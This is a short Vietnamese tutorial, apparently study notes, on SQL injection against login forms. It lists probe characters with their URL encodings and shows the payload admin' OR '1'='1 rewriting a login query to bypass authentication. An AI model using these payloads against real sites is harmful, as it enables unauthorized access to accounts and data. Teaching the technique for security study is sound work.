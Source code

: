 ### Authentication Bypass

- Giả sử tồn tại trang đăng nhập sử dụng truy vấn SQL như sau để kiểm tra thông tin đăng nhập:

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

- Trang sẽ so sánh thông tin đầu vào với cơ sở dữ liệu và nếu thông tin khớp, người dùng sẽ được cấp quyền truy cập. Tuy nhiên, nếu nhập thông tin sai, truy vấn sẽ trả về **false**, và quá trình xác thực sẽ bị từ chối.

### SQLi Discovery

- Để kiểm tra xem biểu mẫu đăng nhập có dễ bị tấn công SQL Injection hay không, chúng ta có thể thử chèn một trong các payload sau vào trường đầu vào:

| Payload | URL Encoded |
|---------|-------------|
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

- Nếu một thông báo lỗi SQL xuất hiện thay vì thông báo thất bại thông thường, điều đó cho thấy biểu mẫu có thể bị khai thác. Ví dụ:

```sql
SELECT * FROM logins WHERE username=''' AND password='something';
```

- Kết quả là lỗi cú pháp do số lượng dấu ngoặc đơn không cân bằng.

### OR Injection

- Để bỏ qua bước xác thực, chúng ta cần đảm bảo truy vấn SQL luôn trả về **true**. Điều này có thể thực hiện bằng cách thêm toán tử **OR** cùng với một điều kiện luôn đúng như `'1'='1'`. Khi chèn payload sau:

```sql
admin' OR '1'='1
```

- Câu truy vấn sẽ trở thành:

```sql
SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password='something';
```

### Giải Thích

![image](https://github.com/user-attachments/assets/4f0a2011-58b8-48cb-b1ef-4313f2125ff9)
